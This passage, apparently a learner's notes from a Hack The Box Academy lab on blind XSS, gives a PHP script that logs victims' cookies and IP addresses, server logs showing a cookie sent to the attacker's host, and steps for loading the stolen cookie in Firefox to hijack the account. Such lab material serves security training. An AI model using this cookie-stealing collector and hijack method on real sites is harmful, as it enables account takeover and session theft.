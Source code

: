We can save the following PHP script as`index.php`, and re-run the PHP server again:


```php
<?php
if (isset($_GET['c'])) {
 $list = explode(";", $_GET['c']);
 foreach ($list as $key => $value) {
 $cookie = urldecode($value);
 $file = fopen("cookies.txt", "a+");
 fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
 fclose($file);
 }
}
?>
```

Now, we wait for the victim to visit the vulnerable page and view our XSS payload. Once they do, we will get two requests on our server, one for`script.js`, which in turn will make another request with the cookie value:


```shell-session
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

As mentioned earlier, we get the cookie value right in the terminal, as we can see. However, since we prepared a PHP script, we also get the`cookies.txt` file with a clean log of cookies:



```shell-session
smoothment@htb[/htb]$ cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

Finally, we can use this cookie on the`login.php` page to access the victim's account. To do so, once we navigate to`/hijacking/login.php`, we can click`Shift+F9` in Firefox to reveal the`Storage` bar in the Developer Tools. Then, we can click on the`+` button on the top right corner and add our cookie, where the`Name` is the part before = and the`Value` is the part after = from our stolen cookie:
 ![](https://academy.hackthebox.com/storage/modules/103/xss_blind_set_cookie_2.jpg)

Once we set our cookie, we can refresh the page and we will get access as the victim:

 ![](https://academy.hackthebox.com/storage/modules/103/xss_blind_hijacked_session.jpg)


# Question
---

![Pasted image 20250130174323.png](../../../../IMAGES/Pasted%20image%2020250130174323.png)
